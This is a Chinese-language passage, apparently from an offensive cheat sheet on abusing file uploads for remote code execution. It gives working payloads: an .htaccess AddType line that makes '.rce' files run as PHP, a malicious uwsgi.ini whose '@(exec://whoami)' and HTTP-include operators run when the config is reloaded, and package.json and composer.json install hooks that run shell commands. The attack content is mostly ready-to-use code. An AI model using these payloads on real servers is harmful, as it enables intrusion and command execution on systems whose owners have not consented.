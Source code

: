 ```ps1
AddType mime-type extension [extension ...]
```

通过上传包含以下内容的 `.htaccess` 文件来利用 `AddType` 指令。

```ps1
AddType application/x-httpd-php .rce
```

然后上传任何具有 `.rce` 扩展名的文件。

#### WSGI: uwsgi.ini

uWSGI 配置文件可以包括“魔法”变量、占位符和用精确语法定义的操作符。特别是 '@' 操作符用于 `(filename)` 形式的文件内容包含。支持多种 uWSGI 方案，包括“exec” - 从进程的标准输出读取。当解析 .ini 配置文件时，这些操作符可以被武器化以实现远程命令执行或任意文件写/读。

恶意 `uwsgi.ini` 文件示例：

```ini
[uwsgi]
; 从符号读取
foo = @(sym://uwsgi_funny_function)
; 从附加数据读取
bar = @(data://[REDACTED])
; 从 HTTP 读取
test = @(http://[REDACTED])
; 从文件描述符读取
content = @(fd://[REDACTED])
; 从进程标准输出读取
body = @(exec://whoami)
; 调用返回 char * 的函数
characters = @(call://uwsgi_func)
```

当配置文件被解析时（例如重启、崩溃或自动重新加载），负载将被执行。

#### 依赖管理器

或者，您可以上传带有自定义脚本的 JSON 文件，尝试覆盖依赖管理器配置文件。

* package.json

    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```

* composer.json

    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```
